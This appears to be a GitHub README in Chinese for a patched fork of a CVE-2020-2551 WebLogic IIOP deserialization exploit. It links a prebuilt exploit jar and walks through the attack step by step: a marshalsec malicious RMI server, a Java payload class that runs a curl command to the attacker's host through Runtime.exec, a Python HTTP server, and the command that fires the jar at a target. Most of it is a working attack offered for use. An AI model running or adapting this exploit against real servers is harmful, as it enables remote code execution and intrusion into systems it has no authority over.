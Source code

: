 ## YOU KNOWN ME, AND I KNOWN YOU! HA!

## Patch CVE-2020-2551
更新原版本（https://github.com/Y4er/CVE-2020-2551.git）遇到为私有地址的服务器无法直连检测问题。


## 参考
https://github.com/Y4er/CVE-2020-2551.git

https://xz.aliyun.com/t/7498

https://xz.aliyun.com/t/7374#toc-13




>## CVE-2020-2551
>Weblogic IIOP 反序列化
>
>## 测试环境
>Weblogic10.3.6+jdk1.6
>
>[打包好的jar包](https://pan.baidu.com/s/1WancKEtKzXDxwWP0zz3QPg) 提取码：a6ob 
>
>## 漏洞利用
>下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java
>```java
>package payload;
>
>import java.io.IOException;
>
>public class exp {
>
>    public exp() {
>        String cmd = "curl http://172.16.1.1/success";
>        try {
>            Runtime.getRuntime().exec(cmd).getInputStream();
>        } catch (IOException e) {
>            e.printStackTrace();
>        }
>    }
>}
>```
>
>**尽量使用和weblogic相同的jdk版本和依赖库(wlfullclient.jar)编译** 然后本地起一个web服务器
>
>```
>python -m http.server --bind 0.0.0.0 80
>```
>
>命令行运行jar包
>```
>java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
>```
>实际效果如图
>![image](https://user-images.githubusercontent.com/40487319/75524749-81804100-5a49-11ea-8409-20746ca09299.gif)
>
>## 参考
>
>https://y4er.com/post/weblogic-cve-2020-2551/
